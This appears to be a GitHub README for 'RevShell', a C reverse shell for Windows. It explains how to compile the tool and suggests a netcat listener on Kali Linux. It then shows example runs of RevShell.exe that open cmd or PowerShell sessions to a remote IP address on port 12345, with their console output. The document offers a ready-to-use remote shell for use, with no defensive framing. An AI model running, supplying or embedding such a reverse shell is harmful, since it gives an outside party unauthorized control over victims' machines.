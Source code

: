 # RevShell

## Description
This is a simple C-based reverse shell used to open a _CMD_ or _PowerShell_ session from Windows to Linux/Windows/OSx.

## Features
- [x] Open a reverse shell using cmd.exe
- [x] Open a reverse shell using powershell.exe

## How To Compile The Code
1. Download and install VisualStudio 2019 - Community Edition
2. Clone this repository to a local folder
3. Open the file "RevShell.sln"
4. Press F6 to compile the code
5. Enjoy :)

## Examples
Before starting the executable make sure you have started a listener on your favorite (Linux) distribution. I use netcat on Kali Linux.

> Open a cmd session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a cmd session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 cmd
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a powershell session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 powershell
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

![RevShell.exe in action](https://github.com/AleDiBen/RevShell/blob/master/example.png)\
_RevShell.exe in action._
